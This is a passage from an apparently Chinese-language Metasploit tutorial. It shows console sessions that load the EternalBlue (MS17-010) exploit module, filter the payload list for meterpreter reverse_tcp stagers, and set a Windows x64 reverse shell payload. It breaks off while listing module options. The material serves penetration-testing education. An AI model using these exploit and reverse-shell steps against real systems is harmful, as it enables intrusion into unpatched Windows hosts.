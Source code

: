 在 的帮助下`grep`，我们将我们想要的有效载荷列表减少到更少。当然，该`grep`命令可用于所有其他命令。我们只需要知道我们在寻找什么。

## 选择有效载荷

与模块一样，我们需要我们想要使用的条目的索引号。要为当前选定的模块设置有效负载，我们`set payload <no.>`仅在选择一个漏洞利用模块后才使用。

#### MSF - 选择负载

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

选择有效载荷后，我们将有更多选择。

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
```